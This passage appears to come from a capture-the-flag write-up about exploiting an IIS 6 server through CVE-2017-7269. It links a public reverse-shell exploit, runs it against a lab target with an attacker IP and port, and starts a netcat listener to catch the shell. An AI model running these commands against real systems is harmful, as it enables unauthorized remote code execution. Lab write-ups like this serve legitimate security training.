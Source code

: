 ![Shell back](./images/cmdshell.png)

*Alternative Way*

As I was looking for exploits on IIS 6 Remote code execution I found this link:
> https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

## Exploitation

I downloaded the script, checked the usage.

```zsh
python rev.py 10.10.10.15 80 10.10.14.9 443
```
Start a listener
```zsh
rlwrap nc -lvnp 443
```

![Intial Shell](./images/intial_shell.png)
